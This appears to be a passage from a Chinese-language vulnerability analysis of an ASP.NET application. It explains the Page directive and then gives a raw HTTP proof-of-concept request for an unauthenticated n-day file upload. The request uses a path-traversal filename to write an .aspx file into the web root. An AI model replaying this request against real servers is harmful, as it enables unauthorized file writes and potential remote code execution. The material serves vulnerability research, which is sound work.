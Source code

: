 ```c\#
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="MyPage.aspx.cs" Inherits="MyWebApp.MyPage" %>
```

这是一个 ASP.NET Web 页面的指令（Directive），用于在页面中指定一些重要的属性和配置

解析如下：

-   **<%@ Page：** 这是指令的起始标记，用于定义页面的属性和配置。
-   **Language="C#"：** 指定服务器端代码使用的编程语言，这里是 C#。
-   **AutoEventWireup="true"：** 一个布尔值，表示是否启用自动事件绑定。当设置为 true 时，ASP.NET 将自动绑定事件处理程序。
-   **CodeBehind="MyPage.aspx.cs"：** 指定代码文件的相对路径。在这个例子中，代码文件名为 MyPage.aspx.cs，它通常包含页面的服务器端逻辑。
-   **Inherits="MyWebApp.MyPage"：** 指定页面的继承关系。这里，MyPage 页面继承自 MyWebApp.MyPage 类。Inherits 属性告诉 ASP.NET 使用指定类中的代码。

通过这个指令，ASP.NET 可以正确地处理页面，编译代码文件，然后将其与页面关联起来。这使得在 .aspx 页面中可以使用与 .aspx.cs 文件关联的服务器端代码

在一般的.NET 代码中，我们需要特别注意 inherits（继承）部分。它会指向我们需要去找的 dll，例如前面的示例可能指向的是 MyWebApp.dll，在 MyWebApp.dll 中寻找 MyPage

# 0x02 Poc—前台 Nday 上传

```php
POST /Tools/Video/VideoCover.aspx HTTP/1.1
Host: xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insectre-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 1015 7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/107.0.0.0 Safari 537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avifimage/webp,image/apng,*/*;q=0.8,application/signed-exchangev=b3;q=0.9
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;g=0.9
Cookie: ASP.NET_SessionId=pgfnw0patx4kh0jsnpjgzcmq; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Connection: close
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Length: 294

------WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Disposition: form-data, name= "file";filename="/../../../AVA.ResourcesPlatform.WebUI/test.aspx"
Content-Type: image/jpeg

<%@Page Language="C#"%>
<%
Response.Write("test");
%>
------WebKitFormBoundaryVBf7Cs8QWsfwC82M--
```

根据 Poc 在根目录中 Tools/Video 下找到 VideoPath.aspx

